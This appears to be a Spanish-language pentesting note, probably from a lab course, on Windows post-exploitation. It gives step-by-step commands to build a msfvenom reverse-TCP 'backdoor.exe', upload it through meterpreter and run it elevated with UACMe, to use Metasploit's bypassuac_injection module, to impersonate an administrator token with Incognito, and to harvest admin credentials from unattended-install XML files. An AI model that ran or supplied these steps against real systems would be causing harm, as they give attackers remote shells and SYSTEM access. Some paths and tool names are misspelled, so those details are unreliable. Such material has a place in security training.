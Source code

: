 POST EXPLOTACIÓN WINDOWS

## **Bypass UAC con UACMe**

El Control de Cuentas de Usuario (UAC) es la notificación que aparece en Windows cuando se intenta ejecutar un programa con permisos de administrador. UACMe es una herramienta que permite bypassear el UAC sin necesidad de ingresar la contraseña de un administrador local para elevar los privilegios de un programa.

### **Requisitos**

Es necesario tener control de un usuario dentro del grupo de administradores locales y que la configuración de UAC no se haya modificado desde la instalación de Windows.

### **Proceso**

Lo primero que debemos hacer es conseguir una sesión de meterpreter en la máquina víctima y migrarla a explorer.exe para conseguir una sesión de 64 bits.

![image](https://github.com/user-attachments/assets/516c78f1-b086-4d83-b71b-713da08df9f1)

Ahora, tenemos una sesión de meterpreter con el usuario admin. Este usuario está en el grupo de administradores locales, lo que le permite ejecutar programas con permisos de administrador, aunque dispone de bajos privilegios (por ejemplo, no puede ejecutar un payload con permisos de administrador)

![image](https://github.com/user-attachments/assets/89df7b86-ed70-4f44-b997-9dc96ee96168)

Para elevar los privilegios, nos descargamos el repositorio de UACMe desde github.

Vamos a bypasear el UAC para ejecutar este payload de msfvenom para crear una sesión de meterpreter con para aumentar nuestros privilegios:

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=\*ip\*LPORT=1234 -f exe > backdoor.exe

Después, en Metasploit, utilizamos multi/handler y establecemos el mismo payload que en msfvenom:

- set PAYLOAD windows/meterpreter/reverse_tcp

Volvemos a la sesión de meterpreter, vamos a la carpeta C:\\temp y subimos nuestro payload y el ejecutable Akagy64:

- upload backdoor.exe
- upload akagy64
- shell

Para ejecutar backdoor.exe con permisos de administrador, utilizamos akagy64 con el siguiente comando CON RUTA COMPLETA:

/root/Desktop/tools/UACME

- .\\akagy64 23 C:\\temp\\backdoor.exe

La _key_ depende de la versión de Windows. El número a utilizar se encuentra en el repositorio de GitHub. Para instalar paquetes en Windows 7, utilizamos el número 23, que instala el packet manager, permitiendo la instalación de paquetes.

Si vamos al multi/handler y establecemos el mismo payload que en msfvenom, hemos conseguido una sesión de meterpreter de altos privilegios:

![image](https://github.com/user-attachments/assets/4195d38d-42bf-4660-8dfe-b7ff7fecb788)

Para conseguir el permiso de AUTHORITY/System, debemos migrar a otro proceso que esté ejecutando este usuario. Así, habremos pasado del usuario admin con altos privilegios al administrador local.

## **Bypass UAC con METASPLOIT**

- use exploit/windows/local/bypassuac_injection
- set session 1
- set TARGET 1
- set PAYLOAD windows/x64/meterpreter/reverse_tcp

## **ACCESS TOKEN IMPERSONATION**

### **Elevación de Privilegios Mediante Suplantación de Tokens en Windows**

Los tokens de acceso de Windows son el principal elemento del proceso de autenticación y son creados y distribuidos por el servicio "Local Security Authority Subsystem Service (LSASS)". Estos tokens son generados por winlogon.exe cada vez que un usuario se autentica correctamente. El token contiene información del usuario autenticado y los privilegios asociados a un proceso, y se utiliza para restringir el acceso de los usuarios, determinando qué pueden y no pueden ejecutar.

###

### **Tipos de Tokens de Acceso**

1. **Impersonate-level tokens (tokens suplantados):**
    - Permiten actuar totalmente como el usuario cuyo token estamos suplantando.
2. **Delegate-level tokens (tokens normales):**
    - Permiten actuar parcialmente como el usuario, con permisos limitados.

Para realizar el proceso de suplantación de un "Impersonate-level token" con la intención de elevar privilegios, el usuario al que tenemos acceso debe tener los siguientes privilegios:

![image](https://github.com/user-attachments/assets/2b359a2b-12fe-47d7-ba9d-489668ddaba2)

### **Uso de Incognito para Suplantar Tokens**

Incognito es una herramienta de meterpreter que permite suplantar tokens después de la explotación de una máquina. Aquí están los pasos detallados para su utilización:

1. **Acceso a la Máquina:**

- Una vez que hemos explotado una máquina y tenemos acceso a un usuario con bajos privilegios que tiene el privilegio de SeImpersonatePrivilege.

1. **Cargar Incognito en Meterpreter:**

Si no podemos migrar la sesión a otro proceso debido a la falta de permisos, cargamos Incognito:

- load incognito

1. **Listar Tokens Disponibles:**

- list_tokens -u

(Somos NT AUTHORITY\\LOCAL SERVICE y queremos suplantar el token del administrador)

![image](https://github.com/user-attachments/assets/d94e2866-ed62-47b1-8900-65d147235674)


1. **Suplantar el Token del Administrador:**

Suplantamos el token de acceso de “ATTACKDEFENSE\\Administrator”:

- impersonate_token "ATTACKDEFENSE\\Administrator"

![image](https://github.com/user-attachments/assets/bc9c98e1-74bc-4340-9821-a6ca7863cea4)

Con getuid podemos ver que ha cambiado nuestro usuario. Para poder comprobar nuestros privilegios sin que nos de ningún error tenemos que migrar la sesión a un servicio que lo esté ejecutando el usuario administrator, por ejemplo explorer.exe. Ahora comprobamos los privilegios del usuario:

![image](https://github.com/user-attachments/assets/fcc0b989-4a24-4fb1-8c33-25cb006c9d5b)

## **INSTALACIÓN DESATENDIDA**

Cuando se realiza una instalación desatendida (Proceso automático de instalación de Windows), se suele almacenar las credenciales del usuario administrador en las siguientes rutas:  

- C:\\Windows\\Pather\\unattend.xml
- C:\\Windows\\Pather\\autounattend.xml

Una vez localizamos este archivo podemos buscar la forma de logearnos con estas credenciales: psexec, winrm…
